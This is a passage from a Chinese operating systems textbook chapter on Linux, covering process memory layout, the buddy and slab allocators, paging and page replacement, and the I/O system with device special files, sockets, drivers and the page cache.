cp f1 f2
shell程序将调用fork函数创建一个子进程，并使这个子进程运行cp程序。然后shell程序被阻塞，等待子进程结束，子进程结束之后，shell程序会显示新的提示符并且读取键盘输入。如果2号终端的用户不是键入了cp命令而是cc命令，C语言编译器的主程序就会被启动，这将生成更多的子进程来运行不同的编译过程。
Linux的内存模型简单明了，这样使得程序可移植并且能够在内存管理单元大不相同的机器上实现Linux，比如：从没有内存管理单元的机器（如，原始的IBM PC）到有复杂分页硬件支持的机器。这一块设计领域在过去数十年几乎没有发生改变。下面要介绍该模型以及它是如何实现的。
每个Linux进程都有一个地址空间，逻辑上有三段组成：代码、数据和堆栈段。图10-12a中的进程A就给出了一个进程空间的例子。代码段包含了形成程序可执行代码的机器指令。它是由编译器和汇编器把C、C++或者其他程序源码转换成机器代码而产生的。通常，代码段是只读的。由于难以理解和调试，自修改程序早在大约1950年就不再时兴了。因此，代码段既不增长也不减少，总之不会发生改变。
数据段包含了所有程序变量、字符串、数字和其他数据的存储。它有两部分，初始化数据和未初始化数据。由于历史的原因，后者就是我们所知道的BSS（历史上称作符号起始块）。数据段的初始化部分包括编译器常量和那些在程序启动时就需要一个初始值的变量。所有BSS部分中的变量在加载后被初始化为0。
例如，在C语言中可以在声明一个字符串的同时初始化它。当程序启动的时候，字符串要拥有其初始值。为了实现这种构造，编译器在地址空间给字符串分配一个位置，同时保证在程序启动的时候该位置包含了合适的字符串。从操作系统的角度来看，初始化数据跟程序代码并没有什么不同——二者都包含了由编译器产出的位串，它们必须在程序启动的时候加载到内存。
未初始化数据的存在实际上仅仅是个优化。如果一个全局变量未显式地初始化，那么C语言的语义说明它的初始值是0。实际上，大部分全局变量并没有显式初始化，因此都是0。这些可以简单地通过设置可执行文件的一个段来实现，其大小刚好等于数据所需的字节数，同时初始化包括缺省值为零的所有量。
然而，为了节省可执行文件的空间，并没有这样做。取而代之的是，文件包含所有显式初始化的变量，跟随在程序代码之后。那些未初始化的变量都被收集在初始化数据之后，因此编译器要做的就是在文件头部放入一个字段说明要分配的字节数。
为了清楚地说明这一点，再考虑图10-12a。这里代码段的大小是8KB，初始化数据段的大小也是8KB。未初始化数据（BSS）是4KB。可执行文件仅有16KB（代码+初始化数据），加上一个很短的头部来告诉系统在初始化数据后另外再分配4KB，同时在程序启动之前把它们初始化为0。这个技巧避免了在可执行文件中存储4KB的0。
为了避免分配一个全是0的物理页框，在初始化的时候，Linux就分配了一个静态零页面，即一个全0的写保护页面。当加载程序的时候，未初始化数据区域被设置为指向该零页面。当一个进程真正要写这个区域的时候，写时复制的机制就开始起作用，一个实际的页框被分配给该进程。
跟代码段不一样，数据段可以改变。程序总是修改它的变量。而且，许多程序需要在执行时动态分配空间。Linux允许数据段随着内存的分配和回收而增长和缩减，通过这种机制来解决动态分配的问题。有一个系统调用brk，允许程序设置其数据段的大小。那么，为了分配更多的内存，一个程序可以增加数据段的大小。C库函数malloc通常被用来分配内存，它就大量使用这个系统调用。进程地址空间描述符包含信息：进程动态分配的内存区域（通常叫做堆，heap）的范围。
第三段是栈段。在大多数机器里，它从虚拟地址空间的顶部或者附近开始，并且向下生长。例如，在32位x86平台上，栈的起始地址是0xC0000000，这是在用户态下对进程可见的3GB虚拟地址限制。如果栈生长到了栈段的底部以下，就会产出一个硬件错误同时操作系统把栈段的底部降低一个页面。程序并不显式地控制栈段的大小。
当一个程序启动的时候，它的栈并不是空的。相反，它包含了所有的环境变量以及为了调用它而向shell输入的命令行。这样，一个程序就可以发现它的参数了。比如，当输入以下命令
cp src dest
时，cp程序运行，并且栈上有字符串“cp src dest”，这样程序就可以找到源文件和目标文件的名字。这些字符串被表示为一个指针数组来指向字符串中的符号，使得解析更加容易。
当两个用户运行同样的程序，比如编辑器，可以在内存中立刻保持该编辑器程序代码的两个副本，但是并不高效。相反地，大多数Linux系统支持共享代码段。在图10-12a和图10-12c中，可以看到两个进程A和B拥有相同的代码段。在图10-12b中可以看到物理内存的一种可能布局，其中两个进程共享了同样的代码片段。这种映射是通过虚拟内存硬件来实现的。
数据段和栈段从来不共享，除非是在一个fork之后，并且仅仅是那些没有被修改的页面。如果二者之一要增长但是没有邻近的空间来增长，这并不会产生问题，因为在虚拟地址空间中邻近的页面并不一定要映射到邻近的物理页面上。
在有些计算机上，硬件支持指令和数据拥有不同的地址空间。如果有这个特性，Linux就可以利用它。例如，在一个32位地址的计算机上如果有这个特性，那么就有232 字节的指令地址空间和232 字节的数据地址空间。一个到0的跳转指令跳入到代码段的地址0，而一个从0的移动使用数据空间的地址0。这使得可用的数据空间加倍。
除了动态分配更多的内存，Linux中的进程可以通过内存映射文件来访问文件数据。这个特性使我们可以把一个文件映射到进程空间的一部分而该文件就可以像位于内存中的字节数组一样被读写。把一个文件映射进来使得随机读写比使用read和write之类的IO系统调用要容易的多。共享库的访问就是用这种机制映射进来后进行的。在图10-13中，我们可以看到一个文件被同时映射到两个进程中，但在不同的虚拟地址上。
POSIX没有给内存管理指定任何系统调用。这个主题被认为是太依赖于机器而不便于标准化。可是，这个问题通过这样的说法被隐藏起来了：那些需要动态内存管理的程序可以使用malloc库函数（由ANSIC标准定义）。那么malloc是如何实现的就被推到了POSIX标准之外了。在一些圈子里，这种方法被认为是推卸责任。
实际上，许多Linux系统有管理内存的系统调用。最常见的列在了图10-14中。brk通过给出数据段之外的第一个字节地址来指定数据段的大小。如果新值比原来的要大，那么数据段变大；反之，数据段缩减。
mmap和munmap系统调用控制内存映射文件。mmap的第一个参数，addr，决定文件被映射的地址。它必须是页大小的倍数。如果这个参数是0，系统确定地址并且返回到a中。第二个参数len指示要映射的字节数。它也必须是页大小的整数倍。第三个参数，prot，确定对映射文件的保护。它可以标记为可读、可写、可执行或者三者的组合。第四个参数，flags，控制文件是私有的还是共享的以及addr是一个需求还是仅仅是一个提示。第五个参数，fd，是要映射的文件的描述符。只有打开的文件是可以被映射的，因此为了映射一个文件，首先必须要打开它。最后，offset告诉从文件中的什么位置开始映射。并不一定要从第0个字节开始映射，任何页面边界都是可以的。
另一个调用，unmap，移除一个被映射的文件。如果仅仅是文件的一部分撤销映射，那么其他部分仍然保持映射。
32位机器上的每个Linux进程通常有3GB的虚拟地址空间，还有1GB留给其页表和其他内核数据。在用户态下运行时，内核的1GB是不可见的，但是当进程陷入到内核时是可以访问的。内核内存通常驻留在低端物理内存中，但是被映射到每个进程虚拟地址空间顶部的1GB中，在地址0xC0000000和0xFFFFFFFF（3～4GB）之间。当进程创建的时候，进程地址空间被创建，并且当发生一个exec系统调用时被重写。
为了允许多个进程共享物理内存，Linux监视物理内存的使用，在用户进程或者内核构件需要时分配更多的内存，把物理内存动态映射到不同进程的地址空间中去，把程序的可执行体、文件和其他状态信息移入移出内存来高效地利用平台资源并且保障程序执行的进展性。本章的剩余部分描述了在Linux内核中负责这些操作的各种机制的实现。
1.物理内存管理
在许多系统中由于异构硬件限制，并不是所有的物理内存都能被相同地对待，尤其是对于I/O和虚拟内存。Linux区分三种内存区域（zone）：
1)ZONE_DMA：可以用来DMA操作的页。
2)ZONE_NORMAL：正常规则映射的页。
3)ZONE_HIGHMEM：高内存地址的页，并不永久性映射。
内存区域的确切边界和布局是硬件体系结构相关的。在x86硬件上，一些设备只能在起始的16MB地址空间进行DMA操作，因此ZONE_DMA就在0～16MB的范围内。此外，硬件也不能直接映射896MB以上的内存地址，因此ZONE_HIGHMEM就是高于该标记的任何地址。ZONE_NORMAL是介于其中的任何地址。因此在x86平台上，Linux地址空间的起始896MB是直接映射的，而内核地址空间的剩余128MB是用来访问高地址内存区域的。内核为每个内存区域维护一个zone数据结构，并且可以分别在三个区域上执行内存分配。
Linux的内存由三部分组成。前两部分是内核和内存映射，被“钉”在内存中（页面从来不换出）。内存的其他部分被划分成页框，每一个页框都可以包含一个代码、数据或者栈页面，一个页表页面，或者在空闲列表中。
内核维护内存的一个映射，该映射包含了所有系统物理内存使用情况的信息，比如区域、空闲页框等。如图10-15，这些信息是如下组织的。
首先，Linux维护一个页描述符数组，称为mem_map，其中页描述符是page类型的，而且系统当中的每个物理页框都有一个页描述符。每个页描述符都有个指针，在页面非空闲时指向它所属的地址空间，另有一对指针可以使得它跟其他描述符形成双向链表，来记录所有的空闲页框和一些其他的域。在图10-15中，页面150的页描述符包含一个到其所属地址空间的映射。页面70、页面80、页面200是空闲的，它们是被链接在一起的。页描述符的大小是32字节，因此整个mem_map消耗了不到1%的物理内存（对于4KB的页框）。
因为物理内存被分成区域，所以Linux为每个区域维护一个区域描述符。区域描述符包含了每个区域中内存利用情况的信息，例如活动和非活动页的数目，页面置换算法（本章后面介绍）所使用的高低水位，还有许多其他的域。
此外，区域描述符包含一个空闲区数组。该数组中的第i个元素标记了2i 个空闲页的第一个块的第一个页描述符。既然可能有多块2i 个空闲页，Linux使用页描述符的指针对把这些页面链接起来。这个信息在Linux的内存分配操作中使用。在图10-15中，free_area[0]标记所有仅由一个页框组成的物理内存空闲区，现在指向页面70，三个空闲区当中的第一个。其他大小为一个页面的空闲块也可通过页描述符中的链到达。
最后，Linux可以移植到NUMA体系结构（不同的内存地址有不同的访问时间），为了区分不同节点上的物理内存（同时避免跨节点分配数据结构），使用了一个节点描述符。每个节点描述符包含了内存使用的信息和该节点上的区域。在UMA平台上，Linux用一个节点描述符描述所有的内存。每个页描述符的最初一些位是用来指定该页框所属的节点和区域的。
为了使分页机制在32位和64位体系结构下高效工作，Linux采用了一个四级分页策略。这是一种最初在Alpha系统中使用的三级分页策略，在Linux 2.6.10之后加以扩展，并且从2.6.11版本以后使用的一个四级分页策略。每个虚拟地址划分成五个域，如图10-16。目录域是页目录的索引，每个进程都有一个私有的页目录。找到的值是指向其中一个下一级目录的一个指针，该目录也由虚拟地址的一个域索引。中级页目录表中的表项指向最终的页表，它是由虚拟地址的页表域索引的。页表的表项指向所需要的页面。在Pentium处理器（使用两级分页）上，每个页的上级和中级目录仅有一个表项，因此总目录项就可以有效地选择要使用的页表。类似地，在需要的时候可以使用三级分页，此时把上级目录域的大小设置为0就可以了。
物理内存可以用于多种目的。内核自身是完全“硬连线”的，它的任何一部分都不会换出。内存的其余部分可以作为用户页面、分页缓存和其他目的。页面缓存包含最近已读的或者由于未来有可能使用而预读的文件块，或者需要写回磁盘的文件块页面，例如那些被换出到磁盘的用户进程创建的页面。分页缓存并不是一个独立的缓存，而是那些不再需要的或者等待换出的用户页面集合。如果分页缓存当中的一个页面在被换出内存之前复用，它可以被快速收回。
此外，Linux支持动态加载模块，最常见的是设备驱动。它们可以是任意大小的并且必须分配一个连续的内核内存。这些需求的一个直接结果是，Linux用这样一种方式来管理物理内存使得它可以随意分配任意大小的内存片。它使用的算法就是伙伴算法，下面给予描述。
2.内存分配机制
Linux支持多种内存分配机制。分配物理内存页框的主要机制是页面分配器，它使用了著名的伙伴算法。
管理一块内存的基本思想如下。刚开始，内存由一块连续的片段组成，图10-17a的简单例子中是64个页面。当一个内存请求到达时，首先上舍入到2的幂，比如8个页面。然后整个内存块被分割成两半，如图b所示。因为这些片段还是太大了，较低的片段被再次二分（c），然后再二分（d）。现在我们有一块大小合适的内存，因此把它分配给请求者，如图d所示。
现在假定8个页面的第二个请求到达了。这个请求有（e）直接满足了。此时4个页面的第三个请求到达了。最小可用的块被分割（f），然后其一半被分配（g）。接下来，8页面的第二个块被释放（h）。最后，8页面的另一个块也被释放。因为刚刚释放的两个邻接的8页面块来自同一个16页面块，它们合并起来得到一个16页面的块（i）。
Linux用伙伴算法管理内存，同时有一些附加特性。它有个数组，其中的第一个元素是大小为1个单位的内存块列表的头部，第二个元素是大小为2个单位的内存块列表的头部，下一个是大小为4个单位的内存块列表的头部，以此类推。通过这种方法，任何2的幂次大小的块都可以快速找到。
这个算法导致了大量的内部碎片，因为如果想要65页面的块，必须要请求并且得到一个128页面的块。
为了缓解这个问题，Linux有另一个内存分配器，slab分配器。它使用伙伴算法获得内存块，但是之后从其中切出slab（更小的单元）并且分别进行管理。
因为内核频繁地创建和撤销一定类型的对象（如task_struct），它使用了对象缓存。这些缓存由指向一个或多个slab的指针组成，而slab可以存储大量相同类型的对象。每个slab要么是满的，要么是部分满的，要么是空的。
例如，当内核需要分配一个新的进程描述符（一个新的task_struct）的时候，它在task结构的对象缓存中寻找，首先试图找一个部分满的slab并且在那里分配一个新的task_struct对象。如果没有这样的slab可用，就在空闲slab列表中查找。最后，如果必要，它会分配一个新的slab，把新的task结构放在那里，同时把该slab连接到task结构对象缓存中。在内核地址空间分配连续的内存区域的kmalloc内核服务，实际上就是建立在slab和对象缓存接口之上的。
第三个内存分配器vmalloc也是可用的，并且用于那些仅仅需要虚拟地址空间连续的请求。实际上，这一点对于大部分内存分配是成立的。一个例外是设备，它位于内存总线和内存管理单元的另一端，因此并不理解虚拟地址。然而，vmalloc的使用导致一些性能的损失，主要用于分配大量连续虚拟地址空间，例如动态插入内核模块。所有这些内存分配器都是继承自System V中的那些分配器。
3.虚拟地址空间表示
虚拟地址空间被分割成同构连续页面对齐的区域。也就是说，每个区域由一系列连续的具有相同保护和分页属性的页面组成。代码段和映射文件就是区（area）的例子（见图10-15）。在虚拟地址空间的区之间可以有空隙。所有对这些空隙的引用都会导致一个严重的页面故障。页大小是确定的，例如Pentium是4KB而Alpha是8KB。Pentium支持4MB的页框，Linux可以支持4MB的大页框。而且，在PAE（物理地址扩展）模式下，2MB的页大小是支持的。在一些32位机器上常用PAE来增加进程地址空间，使之超过4GB。
在内核中，每个区是用vm_area_struct项来描述的。一个进程的所有vm_area_struct用一个链表链接在一起，并且按照虚拟地址排序以便可以找到所有的页面。当这个链表太长时（多于32项），就创建一个树来加速搜索。vm_area_struct项列出了该区的属性。这些属性包括：保护模式（如，只读或者可读可写）、是否固定在内存中（不可换出）、朝向哪个方向生长（数据段向上长，栈段向下长）。
vm_area_struct也记录该区是私有的还是跟一个或多个其他进程共享的。fork之后，Linux为子进程复制一份区链表，但是让父子进程指向相同的页表。区被标记为可读可写，但是页面却被标记为只读。如果任何一个进程试图写页面，就会产生一个保护故障，此时内核发现该内存区逻辑上是可写的，但是页面却不是，因此它把该页面的一个副本给当前进程同时标记为可读可写。这个机制就说明了写时复制是如何实现的。
vm_area_struct也记录该区是否在磁盘上有备份存储，如果有，在什么地方。代码段把可执行二进制文件作为备份存储，内存映射文件把磁盘文件作为备份存储。其他区，如栈，直到它们不得不被换出，否则没有备份存储被分配。
一个顶层内存描述符mm_struct收集属于一个地址空间的所有虚拟内存区相关的信息，还有关于不同段（代码，数据，栈）和用户共享地址空间的信息等。一个地址空间的所有vm_area_struct元素可以通过内存描述符用两种方式访问。首先，它们是按照虚拟地址顺序组织在链表中的。这种方式的有用之处是：当所有的虚拟地址区需要被访问时，或者当内核查找分配一个指定大小的虚拟内存区域时。此外，vm_area_struct项目被组织成二叉“红黑”树（一种为了快速查找而优化的数据结构）。这种方法用于访问一个指定的虚拟内存地址。为了能够用这两种方法访问进程地址空间的元素，Linux为每个进程使用了更多的状态，但是却允许不同的内核操作来使用这些访问方法，这对进程而言更加高效。
早期的UNIX系统，每当所有的活动进程不能容纳在物理内存中时就用一个交换进程在内存和磁盘之间移动整个进程。Linux跟其他现代UNIX版本一样，不再移动整个进程了。内存管理单元是一个页，并且几乎所有的内存管理部件以页为操作粒度。交换子系统也是以页为操作粒度的，并且跟页框回收算法紧耦合在一起。这个后面会给予描述。
Linux分页背后的基本思想是简单的：为了运行，一个进程并不需要完全在内存中。实际上所需要的是用户结构和页表。如果这些被换进内存，那么进程被认为是“在内存中”，可以被调度运行了。代码、数据和栈段的页面是动态载入的，仅仅是在它们被引用的时候。如果用户结构和页表不在内存中，直到交换器把它们载入内存进程才能运行。
分页是一部分由内核实现而一部分由一个新的进程，页面守护进程，实现的。页面守护进程是进程2（进程0是idle进程，传统上称为交换器，而进程1是init，如图10-11所示）。跟所有守护进程一样，页面守护进程周期性地运行。一旦唤醒，它主动查找是否有工作要干。如果它发现空闲页面数量太少，就开始释放更多的页面。
Linux是一个请求换页系统，没有预分页和工作集的概念（尽管有个系统调用，其中用户可以给系统一个提示将要使用某个页面，希望需要的时候页面在内存中）。代码段和映射文件换页到它们各自在磁盘上的文件中。所有其他的都被换页到分页分区（如果存在）或者一个固定长度的分页文件，叫做交换区。分页文件可以被动态地添加或者删除，并且每个都有一个优先级。换页到一个独立的分区并且像一个原始设备那样访问的这种方式要比换页到一个文件的方式更加高效。有多个原因：首先，文件块和磁盘块的映射不需要了（节省了磁盘I/O读间接块）；其次，物理写可以是任意大小的，并不仅仅是文件块大小；第三，一个页总是被连续地写到磁盘，用一个分页文件，也许是或者也许不是这样的。
页面只有在需要的时候才在分页设备或者分区上被分配。每个设备和文件由一个位图开始说明哪些页面是空闲的。当一个没有备份存储的页面必须换出的时候，仍有空闲空间的最高优先级的分页分区或者文件被选中并且在其上面分配一个页面。正常情况下，分页分区（若存在）拥有比任何分页文件更高的优先级。页表被及时更新以反映页面已经不在内存了（如，page-not-present位被设置）同时磁盘位置被写入到页表项。
页面置换算法
页面替换是这样工作的。Linux试图保留一些空闲页面，这样可以在需要的时候分配它们。当然，这个页面池必须不断地加以补充。PFRA（页框回收算法）算法展示了它是如何发生的。
首先，Linux区分四种不同的页面：不可回收的（unreclaimable）、可交换的（swappable）、可同步的（syncable）、可丢弃的（discardable）。不可回收页面包括保留或者锁定页面、内核态栈等，不会被换出页面。可交换页必须在回收之前写回到交换区或者分页磁盘分区。可同步的页面如果被标记为dirty就必须要写回到磁盘。最后，可丢弃的页面可以被立即回收。
在启动的时候，init开启一个页面守护进程kswapd（每个内存节点都有一个），并且配置它们能周期性运行。每次kswapd被唤醒，它通过比较每个内存区域的高低水位来检查是否有足够的空闲页面可用。如果有足够的空闲页面，它就继续睡眠。当然它也可以在需要更多页面时被提前唤醒。如果任何内存区域的可用空间低于一个阈值，kswapd初始化页框回收算法。在每次运行过程中，仅有一个确定数目的页面被回收，典型值是32。这个值是受限的，以控制I/O压力（由PFRA操作导致的磁盘写的次数）。回收页面的数量和扫描页面的总数量是可配置的参数。
每次PFRA执行，它首先回收容易的页面，然后处理更难的。可丢弃页面和未被引用的页面都是可以被立即回收的，同时把它们添加到区域的空闲链表中。接着它查找有备份存储同时近期未被使用的页面，使用一个类似于时钟的算法。再后来就是用户使用不多的共享页面。共享页面带来的挑战是，如果一个页面被回收，那么所有共享了该页面的所有地址空间的页表都要同步更新。Linux维护高效的类树数据结构来方便地找到一个共享页面的所有使用者。普通用户页面在此之后被查找，如果被选中换出，它们必须被调度写入交换区。系统的swappiness，即有备份存储的页面和在PFRA中被换出的页面的比率，是该算法的一个可调参数。最后，如果一个页是无效的、不在内存、共享、锁定在内存或者拥有DMA，那么它被跳过。
PFRA用一个类似时钟的算法来选择旧页面换出。这个算法的核心是一个循环，它扫描每个区域的活动和非活动列表，试图按照不同的紧迫程度回收不同类型的页面。紧迫性数值作为一个参数传递给该过程，说明花费多大的代价来回收一些页面。通常，这意味着在放弃之前检查多少个页面。
在PFRA期间，页面按照图10-18描述的方式在活动和非活动列表之间移来移去。为了维护一些启发并且尽量找出没有被引用的和近期不可能被使用的页面，PFRA为每个页面维护两个标记：活动/非活动和是否被引用。这两个标记构成四种状态，如图10-18所示。在对一个页面集合的第一遍扫描中，PFRA首先清除它们的引用位。如果在第二次运行期间确定它已经被引用，则把它提升到另一个状态，这样就不太可能回收它了。否则，将该页面移动到一个更可能被回收的状态。
处在非活动列表上的页面，自从上次检查未被引用过，故而是移出的最佳候选。有些页面的PG_active和PG_referenced都被置为0，如图10-18。然而，如果需要，处于其他状态的页面也可能会被回收。图10-18中的重装箭头就说明这个事实。
PFRA维护一些页面，尽管可能已经被引用但在非活动列表中，其原因是为了避免如下的情形。考虑一个进程周期性访问不同的页面，比如周期为1个小时。从最后一次循环开始被访问的页面会设置其引用标志位。然而，接下来的一个小时里不再使用它，没有理由不考虑把它作为一个回收的候选。
Linux和其他的UNIX系统一样，I/O系统都相当的简单明了。基本上，所有的I/O设备都被当作文件来处理，并且通过与访问所有文件同样的read和write系统调用来访问。在某些情况下，必须通过一个特殊的系统调用来设置设备的参数。我们会在下面的章节中学习这些细节。
像所有的计算机一样，运行Linux的计算机具有磁盘、打印机、网络等I/O设备。需要一些策略才能使程序能够访问这些设备。有很多不同的方法都可以达到目的，Linux把设备当作一种特殊文件整合到文件系统中。每个I/O设备都被分配了一条路径，通常在/dev目录下。例如：一个磁盘的路径可能是“/dev/hd1”，一个打印机的路径可能是“/dev/lp”，网络的路径可能是“/dev/net”。
可以用与访问其他普通文件相同的方式来访问这些特殊文件。不需要特殊的命令或者系统调用。常用的open、read、write等系统调用就够用了。例如：下面的命令
cp file/dev/lp
把文件“file”复制到打印机“/dev/lp”，然后开始打印（假设用户具有访问“/dev/lp”的权限）。程序能够像操作普通文件那样打开、读、写特殊文件。实际上，上面的“cp”命令甚至不知道是要打印“file”文件。通过这种方法，不需要任何特殊的机制就能进行I/O。
特殊文件（设备）分为两类，块特殊文件和字符特殊文件。一个块特殊文件由一组具有编号的块组成。块特殊文件的主要特性是：每一个块都能够被独立地寻址和访问。也就是说，一个程序能够打开一个块特殊文件，并且不用读第0块到第123块就能够读第124块。磁盘就是块特殊文件的典型应用。
字符特殊文件通常用于表示输入和输出字符流的设备。键盘、打印机、网络、鼠标、绘图机以及大部分接受用户数据或向用户输出数据的设备都使用字符特殊文件来表示。访问一个鼠标的124块是不可能的（甚至是无意义的）。
每个特殊文件都和一个处理其对应设备的设备驱动相关联。每个驱动程序都通过一个主设备号来标识。如果一个驱动程序支持多个设备，如，相同类型的两个磁盘，每个磁盘使用一个次设备号来标识。主设备号和次设备号结合在一起能够惟一地确定每个I/O设备。在很少的情况下，一个单独的驱动程序处理两种关系密切的设备。比如：与“/dev/tty”联合的驱动程序同时控制着键盘和显示器，这两种设备通常被认为是一种设备，即终端。
大部分的字符特殊文件都不能够被随机访问，因此它们通常需要用不同于块特殊文件的方式来控制。比如，由键盘上键入输入字符并显示在显示器上。当一个用户键入了一个错误的字符，并且想取消键入的最后一个字符时，他敲击其他的键。有人喜欢使用“backspace”回退键，也有人喜欢“del”删除键。类似地，为了取消刚键入的一行字符，也有很多方法。传统的方法是输入“@”，但是随着e-mail的传播（在电子邮件地址中使用@），一些系统使用“CTRL+U”或者其他字符来达到目的。同样的，为了中断正在运行的程序，需要使用一些特殊的键。不同的人有不同的偏爱。“CTRL+C”是常用的方法，但不是惟一的。
Linux允许用户自定义这些特殊的功能，而不是强迫每个人使用系统选择的那种。Linux提供了一个专门的系统调用来设置这些选项。这个系统调用也处理tab扩展，字符输出有效、失效，回车和换行之间的转换等类似的功能。这个系统调用不能用于普通文件和块特殊文件。
I/O的另外一个例子是网络，由Berkeley UNIX首创并在Linux中差不多原封不动引入。在Berkeley的设计中，关键概念是套接字（socket）。套接字与邮筒和墙壁上的电话插座是类似的，因为套接字允许用户连接到网络，正如邮筒允许用户连接到邮政系统，墙壁上的电话插座允许用户插入电话并且连接到电话系统。套接字的位置见图10-19。套接字可以被动态创建和销毁。创建一个套接字成功后，系统返回一个文件描述符。创建连接、读数据、写数据、解除连接时要用到这个文件描述符。
每个套接字支持一种特定的网络类型，这在套接字创建时指定。最常用的类型是：
1)可靠的面向连接的字节流。
2)可靠的面向连接的数据包流。
3)不可靠的数据包传输。
第一种套接字类型允许在不同机器上的两个进程之间建立一个等同于管道的连接。字节从一个端点注入然后按注入的顺序从另外一个端点流出。系统保证所有被传送的字节都能够到达，并且按照发送时的顺序到达。
除保留了数据包之间的分界之外，第二种类型和第一种是相同的。如果发送者调用了5次写操作，每次写了512字节，而接收者要接收2560字节，那么使用第一种类型的套接字，接收者接收一次会立刻接收到所有2560个字节。要是使用第二种类型的套接字，接收者一次只能收到512个字节，而要得到剩下的数据，还需要再进行4次调用。用户可以使用第三种类型的套接字来访问原始网络。这种类型的套接字尤其适用于实时应用和用户想要实现特定错误处理模式的情况。数据包可能会丢失或者被网络重排序。和前两种方式不同，这种方式没有任何保证。第三种方式的优点是有更高的性能，而有时候它比可靠性更加重要（如在传输多媒体时，快速比正确性更有用）。
在创建套接字时，有一个参数指定使用的协议。对于可靠字节流通信来说，使用最广泛的协议是TCP（传输控制协议）。对于不可靠数据包传输来说，UDP（用户数据报协议）是最常用的协议。这两种协议都位于IP（互联网协议）层之上。这些协议都源于美国国防部的ARPANET，现在成为互联网的基础。没有可靠数据包流类型的通用协议。
在一个套接字能够用于网络通信之前，必须有一个地址与它绑定。这个地址可以是几个命名域中的一个。最常用的域为互联网（Internet）命名域，它在V4（第4个版本）中使用32位整数作为其命名端点，在V6中使用128位整数（V5是一个实验系统，从未成为主流）。
一旦套接字在源计算机和目的计算机都建立成功，则两个计算机之间可以建立起一个连接（对于面向连接的通信来说）。一方在本地套接字上使用一个listen系统调用，它创建一个缓冲区并且阻塞，直到数据到来。另一方使用connect系统调用，并且把本地套接字的文件描述符和远程套接字的地址作为参数传递进去。如果远程一方接受了此次调用，则系统在两个套接字之间建立起一个连接。
一旦连接建立成功，它的功能就类似于一个管道。一个进程可以使用本地套接字的文件描述符来从中读写数据。当此连接不再需要时，可以用常用的方式，即通过close系统调用来关闭它。
Linux系统中的每个I/O设备都有一个特殊文件与其关联。大部分的I/O只使用合适的文件就可以完成，并不需要特殊的系统调用。然而，有时需要一些设备专用的处理。在POSIX之前，大部分UNIX系统有一个叫作ioctl的系统调用，它在特殊文件上执行大量设备专用的操作。数年之间，此系统调用已经变得非常混乱。POSIX对其进行了清理，把它的功能划分为主要面向终端设备的独立的功能调用。在Linux和现代UNIX系统中，每个功能调用是独立的系统调用，还是它们共享一个单独的系统调用或者其他的方式，都是依赖于实现的。
在图10-20中的前4个系统调用用来设置和获取终端速度。为输入和输出提供不同的系统调用是因为一些调制解调器工作速率不同。例如，旧的可视图文系统允许用户在家通过短请求以75位/s的上传速度访问服务器上的公共数据，而下载速度为1200位/s。这个标准在一段时间内被采用，因为对于家庭应用来说，输入输出时都采用1200位/秒则太昂贵了。网络世界中的时代已经改变了。不对称性仍然存在，一些电话公司提供8Mbps的入站服务和512kbps的出站服务，称为ADSL（非对称数字用户环线）。
列表中的最后两个系统调用主要用来设置和读回所有用来消除字符和行以及中断进程等功能的特殊字符。另外，它们可以使回显有效或无效，管理流控制及其他相关功能。还有一些I/O功能调用，但是它们都是专用的，所以这里就不进一步讨论了。此外，ioctl系统调用依然可用。
在Linux中I/O是通过一系列的设备驱动来实现的，每个设备类型对应一个设备驱动。设备驱动的功能是对系统的其他部分隔离硬件的细节。通过在驱动程序和操作系统其他部分之间提供一层标准的接口，使得大部分I/O系统可以被划归到内核的机器无关部分。
当用户访问一个特殊文件时，由文件系统提供此特殊文件的主设备号和次设备号，并判断它是一个块特殊文件还是一个字符特殊文件。主设备号用于索引存有字符设备或者块设备数据结构的两个内部散列表之一。定位到的数据结构包含指向打开设备、读设备、写设备等功能的函数指针。次设备号被当作参数传递。在Linux系统中添加一个新的设备类型，意味着要向这些表添加一个新的表项，并提供相应的函数来处理此设备上的各种操作。
图10-21展示了一部分可以跟不同的字符设备关联的操作。每一行指向一个单独的I/O设备（即一个单独的驱动程序）。列表示所有的字符驱动程序必须支持的功能。还有几个其他的功能。当一个操作要在一个字符特殊文件上执行时，系统通过检索字符设备的散列表来选择合适的数据结构，然后调用相应的功能来执行此操作。因此，每个文件操作都包含指向相应驱动程序的一个函数指针。
每个驱动程序都分为两部分。这两部分都是Linux内核的一部分，并且都运行在内核态。上半部分运行在调用者的上下文并且与Linux其他部分交互。下半部分运行在内核上下文并且与设备进行交互。驱动程序可以调用内存分配、定时器管理、DMA控制等内核过程。所有可以被调用的内核功能都定义在一个叫做驱动程序-内核接口（Driver-Kernel Interface）的文档中。编写Linux设备驱动的细节请参见文献（Egan和Teixeira，1992；Rubini等人，2005）。
I/O系统被划分为两大部分：处理块特殊文件的部分和处理字符特殊文件的部分。下面将依次讨论这两部分。
系统中处理块特殊文件（比如，磁盘）I/O的部分的目标是使必须要完成的传输次数最小。为了实现这个目标，Linux系统在磁盘驱动程序和文件系统之间放置了一个高速缓存（cache），如图10-22。在2.2版本内核之前，Linux系统完整地维护着两个单独的缓存：页面缓存（page cache）和缓冲器缓存（buffer cache），因此，存储在一个磁盘块中的文件可能会被缓存在两个缓存中。2.2版本以后的Linux内核版本只有一个统一的缓存。一个通用数据块层（generic block layer）把这些组件整合在了一起，执行磁盘扇区、数据块、缓冲区和数据页面之间必要的转换，并且激活作用于这些结构上的操作。
cache是内核里面用来保存数以千计的最近使用的数据块的表。不管本着什么样的目的（i节点，目录或数据）而需要一个磁盘块，系统首先检查这个块是否在cache里面。如果在cache中，就可以从cache里直接得到这个块，从而避免了一次磁盘访问，这可以在很大程度上提高系统性能。
如果页面cache中没有这个块，系统就会从磁盘中把这个块读入到cache中，然后再从cache中复制到请求它的地方。由于页面cache的大小是固定的，因此，前面章节介绍的页面置换算法在这里也是需要的。
页面cache也支持写数据块，就像读数据一样。一个程序要回写一个块时，它被写到cache里，而不是直接写到磁盘上。当cache增长到超过一个指定值时，pdflush守护进程会把这个块写回到磁盘上。另外，为了防止数据块被写回到磁盘之前在cache里存留太长时间，每隔30秒系统会把所有的“脏块”都写回到磁盘上。
